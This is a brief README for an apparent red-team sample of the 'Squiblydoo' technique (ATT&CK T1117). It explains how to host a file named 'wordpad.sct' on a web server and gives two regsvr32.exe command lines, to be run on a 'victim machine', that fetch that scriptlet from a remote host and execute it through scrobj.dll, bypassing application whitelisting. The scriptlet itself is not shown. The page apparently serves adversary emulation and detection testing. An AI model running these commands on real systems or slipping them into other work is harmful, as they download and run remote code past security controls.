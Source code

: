 # SquiblyDoo/T1117 Sample

On a machine with an HTTP Server, place the file "wordpad.sct" in the a served folder that can be accessed by the test/victim machine. If no HTTP Server is available you can use web_server.py from my repo (https://github.com/ColbyBurkett/Python-web-server). The serving folder is the same folder that web_server.py is running from.

**_Launch this from the victim machine:_**
```
regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
cmd.exe /c regsvr32.exe /s /u /i:http://{serving IP:port}/wordpad.sct scrobj.dll
```